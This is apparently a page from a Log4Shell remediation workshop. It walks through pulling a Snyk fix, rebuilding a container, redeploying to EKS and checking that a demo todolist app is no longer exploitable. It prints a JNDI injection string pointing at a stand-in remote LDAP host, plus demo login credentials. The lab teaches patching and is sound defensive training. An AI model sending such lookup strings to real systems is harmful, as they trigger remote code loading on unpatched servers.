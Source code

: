 +++
title = "Step 9: Verify the Vulnerability is no longer exploitable."
chapter = false
weight = 44
+++

## Update your Cloud9 working branch

Back in Cloud9, pull the latest changes, including the Snyk Fix, to the working environment.

```sh
git pull
```

## Re-build the Image
Now build and push the container to ECR (make sure you are inside the todolist directory).

```sh
docker build -t $REPO/todolist:latest .
docker push $REPO/todolist:latest
```

## Re-deploy the Application to EKS

After pushing the image to ECR, push it to EKS by scaling the goof deployment with kubectl. The deployment's ImagePullPolicy forces EKS to pull the latest image from ECR.

```sh
kubectl scale deployment todolist --replicas=0
kubectl scale deployment todolist --replicas=1
```

## Verify the Exploit no longer works

Refresh your browser tab on the todolist app and log back in (user: foo@bar.org, password: foobar) and submit the same JDNI search string:

* User:
```bash
foo@bar.org
```
* Password:
```bash
foobar
```
Enter search string
```bash
${jndi:ldap://ldap.darkweb:80/#Vandalize}
```

The page will not show the graffiti because the newer version on Log4J no longer is vulnerable!

![todolist-fixed](/images/todolist-fixed.png)
